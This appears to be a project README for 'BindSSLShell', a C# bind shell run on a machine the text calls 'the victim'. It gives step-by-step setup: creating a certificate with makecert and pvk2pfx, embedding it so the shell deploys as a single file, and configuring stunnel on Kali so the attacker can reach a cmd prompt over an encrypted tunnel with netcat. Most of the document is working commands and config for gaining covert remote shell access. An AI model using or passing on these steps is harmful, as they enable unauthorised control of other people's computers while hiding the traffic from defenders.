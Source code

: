 # BindSSLShell
How to BSOS [Bindshell over SSL] ver 1.0

* -Server (the victim): BindSSLShell.exe, console application coded in C# (FW Net 3.5) IDE Visual Studio CE 2017
* -Client (the attacker): Kali Linux with stunnel installed
<br/>
For the server side (the victim)

1. create the certificate:
   1. move to the makecert location, in my case C:\Program Files (x86)\Windows Kits\10\bin\10.0.17763.0\x64
   1. open a cmd as administrator and execute the following: makecert.exe -r -pe -n "CN=localhost" -sky exchange -sv server.pvk server.cer
   1. enter required password, then execute: pvk2pfx -pvk server.pvk -spc server.cer -pfx server.pfx. Enter required server password
1. include the Server.pfx as resource in your VS project (console app) and set the Copy to the output directory as Copy. Eventually you can embed the certificate and load it at runtime, more info: https://stackoverflow.com/questions/3314140/how-to-read-embedded-resource-text-file, so you will have to deploy a single file.
<br/>	
In our attacker machine (Kali Linux) we will use stunnel (since the server require SSL) in conjunction with nc

1. install stunnel:
	1. apt-get install stunnel
1. configure stunnel to forward nc traffic over his ssl tunnel. we must create the file /etc/stunnel/stunnel.conf with the following content:
	1.[nc]
	<br/>client = yes
	<br/>accept = localhost:8443
	<br/>connect = <Victim IP>:6666
	<br/>--- end of file ---
	<br/>so we listeng on the port 8443 and we forward the traffic to the victim IP port 6666. Of coures you have to set the Victim Ip (server side) value according
	
1. start stunnel
	1. service stunnel4 start
		
1. check if it's running (optional)
	1. netstat -tulp
	
	>the output should be similar to:
	
	>Active Internet connections (only servers)
	>Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name    
	>tcp        0      0 localhost:8443          0.0.0.0:*               LISTEN      1156/stunnel4       
	>tcp6       0      0 localhost:8443          [::]:*                  LISTEN      1156/stunnel4       

1. presuming that you already lunched the bindshell on the victim you can connect to it through the tunnel:
	1. nc localhost 8443
	
1. you should get a cmd prompt
	


	



![...](img/shel_ssl.png?raw=true)
